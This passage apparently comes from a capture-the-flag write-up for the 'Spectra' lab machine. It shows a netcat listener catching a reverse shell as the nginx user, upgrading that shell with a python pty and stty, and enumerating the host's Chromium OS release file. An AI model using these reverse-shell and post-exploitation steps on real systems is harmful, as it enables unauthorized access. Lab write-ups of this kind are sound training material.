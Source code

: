 At `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:44864.
$ id
uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)

```

I’ll upgrade my shell:

```

$ python -c 'import pty;pty.spawn("bash")'
<are/nginx/html/main/wp-content/plugins/0xdf-plug $ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo; fg
nc -lnvp 443
            reset 
reset: unknown terminal type unknown
Terminal type? screen
nginx@spectra /usr/local/share/nginx/html/main/wp-content/plugins/akismet $ 

```

## Shell as katie

### Enumeration

`/etc/lsb-release` solves the mystery about the OS:

```

nginx@spectra ~ $ cat /etc/lsb-release 
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64

```
